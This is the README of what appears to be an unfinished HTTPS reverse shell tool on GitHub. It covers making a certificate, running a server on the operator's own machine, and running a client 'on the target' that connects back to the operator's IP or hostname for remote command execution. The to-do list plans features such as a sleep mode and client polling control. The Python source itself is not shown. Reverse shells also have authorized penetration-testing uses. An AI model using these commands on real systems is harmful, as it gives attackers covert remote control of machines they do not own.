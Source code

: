 # HTTPS Reverse Shell

**Work in Progress!** 

I hacked this together in two days, so take care.

It basically works, but a lot of stuff is still missing/hacky. Especially if two clients connect at the same time, things get wild.

## Create Cert and Key for server

```bash
openssl req -new -newkey rsa:4096 -days 730 -nodes -x509 -keyout server.key -out server.crt
```

When prompted write whatever. Or mash enter. Put these in the same directory as the server or supply the paths via command line arguments.

## Howto

On your own machine (use sudo/root for low ports):

```bash
sudo python3 server.py -p 443
```

On the target:

```bash
python3 client_3.py -p 443 -t <your_ip_or_hostname>
```

Use the parameter `--help` on either to see all possible parameters.

## Requirements

None

## ToDo

* Monitor status of client
* Handle multiple clients
* Proper client session instead of just RCE
* Python2 version of client
* Actually take Content-Length into account for big responses
* Auto-create key/cert
* Control client polling speed
* Put client into sleep mode
* Reasonable retries by the client if server does not exist/respond (yet)
